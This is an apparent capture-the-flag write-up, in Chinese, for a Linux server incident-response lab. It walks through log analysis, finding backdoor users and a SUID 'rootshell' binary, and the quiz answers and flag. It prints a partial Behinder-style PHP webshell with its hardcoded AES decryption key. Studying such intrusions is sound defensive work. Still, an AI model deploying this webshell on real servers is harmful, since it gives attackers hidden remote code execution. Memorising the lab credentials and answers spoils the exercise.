








:::info

该靶场环境来自暗月2025培训课程，请使用`web123/Abc@1234` 通过ssh远程连接，如需root使用`sudo -i`切换，flag答题程序在桌面文件夹中，执行后答题获取最终flag

1. 日志分析能力

- Web 访问日志（Apache access.log / error.log）时间线提取与关键字检索
- Linux 认证日志（/var/log/auth.log）登录成功/失败、sudo 使用记录解析
- 日志轮换与压缩日志（*.log.* / *.gz）的联合查询技巧（grep/zgrep）
- 结合时间戳快速定位攻击路径与源头 IP

2. 文件系统取证

- 基于 mtime/cmin 的近期文件查找（find -mtime -1 / -cmin -720）
- 敏感后缀（*.php *.sh *.so）与临时目录（/tmp /dev/shm /var/tmp）重点排查
- 精确打印文件创建/改动时间（-printf %TY-%Tm-%Td %TH:%TM:%TS %p）
- Web 根目录深掘与后门文件内容静态分析

3. 账号与权限审计

- /etc/passwd、/etc/group 中 shell 用户与特权组（root、sudo）梳理
- 用户家目录创建时间（ls -ld /home/*）与系统新增账号定位
- sudo 授权记录与提权操作复现
- SUID 可执行文件扫描（find / -perm -u=s -type f -mtime -2）与风险判定

4. 进程与网络监控

- top / ps 实时进程观察，异常服务识别
- netstat -anltp 网络连接清单，异常端口/外部 IP 定位
- crontab、/etc/cron.* 计划任务全面检查，持久化后门排查

5. Web 漏洞利用链复盘

- 后台弱口令→登录→模板/缓存写入→GetShell 流程还原
- 目录扫描（gobuster 特征）与后台功能滥用（makehtml_homepage.php）关联分析
- Webshell（加密 POST、AES128+eval）流量特征识别

6. 应急响应与加固

- 攻击 IP 封禁、后门账号与文件清理
- 系统与数据库口令重置、最小权限原则
- 安全设备（防火墙、IPS、AV）部署与策略调优建议
- 定期基线检测与日志集中收集方案

:::

```
web123@web123-virtual-machine:~/桌面$ ./flag                                                             
无境靶场之Linux服务器被黑应急响应挑战，作者暗月

第1题：攻击者是哪天打进来的？只需要提供年月日，格式举例： 2099-09-99 
请输入答案: 2025-06-29
回答正确！进入下一题。

2题：攻击者用于提权获取root权限的最终可执行文件名是什么？
请输入答案: rootshell
回答正确！进入下一题。

第3题：攻击者最后一次创建的后门用户名是什么？
请输入答案: backdoor
回答正确！

恭喜你完成挑战，本题flag：196ff90ccdf361c2999d4c7348d9fbb4
```

存在 web 服务 `DedeCMS-V5.7.117`，发现`webshell.php`



```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
        $_SESSION['k']=$key;
        session_write_close();
        $post=file_get_contents("php://input");
        if(!extension_loaded('openssl'))
        {
                $t="base64_"."decode";
                $post=$t($post."");

                for($i=0;$i<strlen($post);$i++) {
                         $post[$i] = $post[$i]^$key[$i+1&15]; 
                        }
        }
        else
        {
                $post=openssl_decrypt($post, "AES128", $key);
            .....
```

查看 root 用户下的历史命令，使用 gcc 编译了一个可执行文件并且设置了 SUID 权限，算是留个小后门



排查其他后门用户

`cat /etc/passwd`



通过日志进行排查

首先，知道有web服务，先看web日志



找到 webshell.php 一个ip多次连续访问，并且返回大小不一样，判断为 webshell

然后分析攻击者后续行为



提权后创建`sysadmin`用户，创建后门

查看sudo使用记录

```
cat auth.log | grep 'sudo'
```



查看组

```
cat /etc/group
```



查看最近被修改的文件

`-mtime -1` 指的是24小时之内

`-printf '%TY-%Tm-%Td %TH:%TM:%S %p\n'` 输出准确时间

```
find / -type f -mtime -1 \( -name "*.php" -o -name "*.sh" -o -name "*.so" \) -printf '%TY-%Tm-%Td %TH:%TM:%S %p\n' 2>/dev/null | sort
```


